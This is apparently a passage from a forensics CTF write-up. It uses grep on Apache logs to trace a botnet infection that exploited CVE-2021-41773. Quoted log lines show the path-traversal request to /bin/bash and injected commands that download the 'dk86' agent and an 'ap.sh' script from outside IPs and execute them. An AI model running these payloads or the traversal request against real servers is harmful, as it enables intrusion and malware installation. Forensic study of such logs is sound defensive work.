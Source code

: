 Use `grep` on the `access_log` (`error_log` does not return anything) and you have the botnet agent IP:

```
grep 11/Nov/2021:19:09:51 var/log/apache2/access_log
141.135.85.36 - - [11/Nov/2021:19:09:51 +0000] "POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash HTTP/1.1" 200 - "-" "-"
```

## Q7 What URL did the attacker use to download the botnet agent?

*file: sdb.vhd*

I'm not sure of my reasoning, but as the attacker tried to exploit Apache2, interesting fingerprints were recorded in `error_log`. At this time we know this:

- botnet agent name: `dk86`
- attacker exploit tries to exploit CVE-2021-41773
- a quick look inside `error_log` show that there is a bash injection
- timestamp of the botnet file creation : 11/Nov/2021:19:09:51 (the dowloading timestamp must be smaller)

Assuming the hacker downloaded the botnet agent earlier in the day, we could create an accurate filter. I assume the attacker used `curl` or `grep` to download the payload.

```
# grep -E 'Nov 11 .* 2021.* (wget|curl).*dk86' var/log/apache2/error_log
[Thu Nov 11 19:07:41.956674 2021] [dumpio:trace7] [pid 804:tid 139978797401856] mod_dumpio.c(103): [client 141.135.85.36:51774] mod_dumpio:  dumpio_in (data-HEAP): echo; wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;
[Thu Nov 11 19:07:41.962142 2021] [cgi:error] [pid 804:tid 139978797401856] [client 141.135.85.36:51774] AH01215: /bin/bash: line 1: `echo; wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;': /bin/bash
[Thu Nov 11 19:09:29.415116 2021] [dumpio:trace7] [pid 803:tid 139978805794560] mod_dumpio.c(103): [client 141.135.85.36:51978] mod_dumpio:  dumpio_in (data-HEAP): echo; wget -O /tmp/dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86;
```

URL appears !

## Q8 What is the name of the file that the attacker downloaded to execute the malicious script and subsequently remove itself?

*file: sdb.vhd*

Tricky question because the attacker does not used the same C2 serveur as in the previous question. A `grep` filter on `http://138.197.206.223:80` returns nothing more than the previous question. My thinking was to expand my timestamp filter (no longer on the day but on the whole month of November) and look at the injected bash.

```
# grep -E 'Nov.*2021.*(wget|curl)' var/log/apache2/error_log
[Mon Nov 01 10:15:10.895210 2021] [dumpio:trace7] [pid 4449:tid 139978898114304] mod_dumpio.c(103): [client 195.19.192.26:38080] mod_dumpio:  dumpio_in (data-HEAP): A=|echo;(curl -s 195.19.192.28/ap.sh||wget -q -O- 195.19.192.28/ap.sh)|bash
...
```
